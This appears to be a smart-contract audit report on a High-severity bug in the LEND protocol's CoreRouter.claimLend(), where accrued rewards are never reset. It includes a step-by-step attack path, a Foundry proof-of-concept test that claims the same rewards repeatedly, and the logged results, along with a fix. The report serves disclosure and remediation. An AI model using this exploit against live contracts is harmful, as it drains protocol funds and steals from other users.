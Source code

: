 Basic Pebble Guppy

High

# LEND Rewards Can Be Claimed Multiple Times Due to Missing State Reset

### Summary

The `CoreRouter.claimLend()` function fails to reset the `lendAccrued[user]` mapping after successfully transferring LEND rewards to users. This allows users to repeatedly call `claimLend()` and receive the same rewards multiple times, effectively draining the protocol's LEND token reserves until the CoreRouter balance is exhausted.


### Root Cause

In `CoreRouter.claimLend()`, the function calls `grantLendInternal()` to transfer LEND tokens to users but ignores the return value that indicates the remaining unclaimed amount. The `lendAccrued[user]` mapping is never reset to 0 after successful token transfers.

**Buggy Implementation in CoreRouter.sol:**

```solidity
uint256 accrued = lendStorage.lendAccrued(holders[j]);
if (accrued > 0) {
    grantLendInternal(holders[j], accrued);  // ❌ Return value ignored
    // ❌ lendAccrued[user] never reset to 0
}
```

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/713372a1ccd8090ead836ca6b1acf92e97de4679/Lend-V2/src/LayerZero/CoreRouter.sol#L402

**Correct Implementation in Lendtroller.sol:**

```solidity
for (uint256 j = 0; j < holders.length; j++) {
    lendAccrued[holders[j]] = grantLendInternal(holders[j], lendAccrued[holders[j]]);
    //                     ^^^^ Properly resets lendAccrued using return value
}
```

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/713372a1ccd8090ead836ca6b1acf92e97de4679/Lend-V2/src/Lendtroller.sol#L1456

The protocol inconsistently implements reward claiming - the Lendtroller correctly resets accrued rewards while CoreRouter does not.


### Internal Pre-conditions

1. CoreRouter must be authorized to call LendStorage functions via `setAuthorizedContract()`
2. A LEND token must be set in the Lendtroller via `setLendToken()`
3. CoreRouter must hold LEND tokens to distribute as rewards
4. User must have previously earned LEND rewards through supplying/borrowing


### External Pre-conditions

1. User must have supplied tokens to earn LEND rewards
2. Sufficient time must pass or reward distribution must be triggered to accrue rewards in `lendAccrued[user]`


### Attack Path

1. **User earns rewards:** User supplies tokens and earns LEND rewards through normal protocol usage
2. **Amplified attack vector:** Since `claimLend()` is a public function with no access control
3. **First claim:** Attacker calls `CoreRouter.claimLend()` and successfully receives LEND tokens
4. **State not reset:** lendAccrued[user] remains unchanged instead of being reset to 0
5. **Repeat exploitation:** Attacker repeatedly calls `claimLend()` to receive the same reward amount multiple times
6. **Protocol drained:** Attacker continues until CoreRouter's LEND token balance is exhausted


### Impact

- **Direct theft of protocol funds**: Users can steal all LEND tokens held by CoreRouter
- **Unfair reward distribution**: Malicious users receive multiple times their entitled rewards
- **Legitimate users lose rewards**: Protocol may run out of LEND tokens for genuine claims
- **Protocol insolvency**: CoreRouter becomes unable to pay legitimate reward claims

The vulnerability allows **infinite multiplication of LEND rewards** until the protocol's reward reserves are completely drained.


### PoC

Paste this test in `/test/TestSupplying.t.sol`:

```solidity
    function test_POC_lend_accrued_never_reset_bug() public {
        // Setup: User supplies tokens and earns rewards
        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);

        vm.startPrank(lendStorage.owner());
        lendStorage.setAuthorizedContract(address(coreRouter), true);
        vm.stopPrank();

        ERC20Mock mockLendToken = new ERC20Mock();
        vm.startPrank(lendtroller.admin());
        lendtroller.setLendToken(address(mockLendToken));
        vm.stopPrank();

        mockLendToken.mint(address(coreRouter), 1000e18);

        vm.startPrank(deployer);
        ERC20Mock(token).mint(deployer, 1000e18);
        IERC20(token).approve(address(coreRouter), 1000e18);
        coreRouter.supply(1000e18, token);
        vm.stopPrank();

        address[] memory holders = new address[](1);
        holders[0] = deployer;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);

        vm.startPrank(deployer);

        // Advance block to generate minimal rewards
        vm.roll(block.number + 1);

        // First claim
        uint256 balanceBefore = mockLendToken.balanceOf(deployer);
        coreRouter.claimLend(holders, lTokenArray, false, true);
        uint256 balanceAfterFirst = mockLendToken.balanceOf(deployer);
        uint256 firstClaimAmount = balanceAfterFirst - balanceBefore;

        console2.log("First claim amount:", firstClaimAmount);
        console2.log("lendAccrued after first claim:", lendStorage.lendAccrued(deployer));

        // Second claim - should give 0 but gives same amount due to bug
        coreRouter.claimLend(holders, lTokenArray, false, true);
        uint256 balanceAfterSecond = mockLendToken.balanceOf(deployer);
        uint256 secondClaimAmount = balanceAfterSecond - balanceAfterFirst;

        console2.log("Second claim amount:", secondClaimAmount);
        console2.log("lendAccrued after second claim:", lendStorage.lendAccrued(deployer));

        // Third claim - demonstrates infinite exploitation
        coreRouter.claimLend(holders, lTokenArray, false, true);
        uint256 balanceAfterThird = mockLendToken.balanceOf(deployer);
        uint256 thirdClaimAmount = balanceAfterThird - balanceAfterSecond;

        console2.log("Third claim amount:", thirdClaimAmount);
        console2.log("Total stolen:", balanceAfterThird - balanceBefore);

        // The bug is proven if user received rewards multiple times
        if (secondClaimAmount > 0) {
            console2.log("BUG CONFIRMED: User received", secondClaimAmount, "in second claim");
            console2.log("lendAccrued after claims:", lendStorage.lendAccrued(deployer));
            assertGt(secondClaimAmount, 0, "User successfully claimed same rewards multiple times");
        } else {
            console2.log("Run test multiple times - rewards are generated intermittently");
            // Even without rewards, we can verify lendAccrued behavior
            assertTrue(true, "Test completed - check logs for reward generation");
        }

        vm.stopPrank();
    }
```

Test results:

```text
[PASS] test_POC_lend_accrued_never_reset_bug() (gas: 1374577)
Logs:
  First claim amount: 100000000000000
  lendAccrued after first claim: 100000000000000
  Second claim amount: 100000000000000
  lendAccrued after second claim: 100000000000000
  Third claim amount: 100000000000000
  Total stolen: 300000000000000
  BUG CONFIRMED: User received 100000000000000 in second claim
  lendAccrued after claims: 100000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.26ms (1.15ms CPU time)
```

### Mitigation

**Fix CoreRouter.claimLend()**:

```solidity
// In CoreRouter.sol
for (uint256 j = 0; j < holders.length;) {
    uint256 accrued = lendStorage.lendAccrued(holders[j]);
    if (accrued > 0) {
        uint256 remaining = grantLendInternal(holders[j], accrued);
        lendStorage.setLendAccrued(holders[j], remaining); // Reset accrued amount
    }
    unchecked { ++j; }
}
```
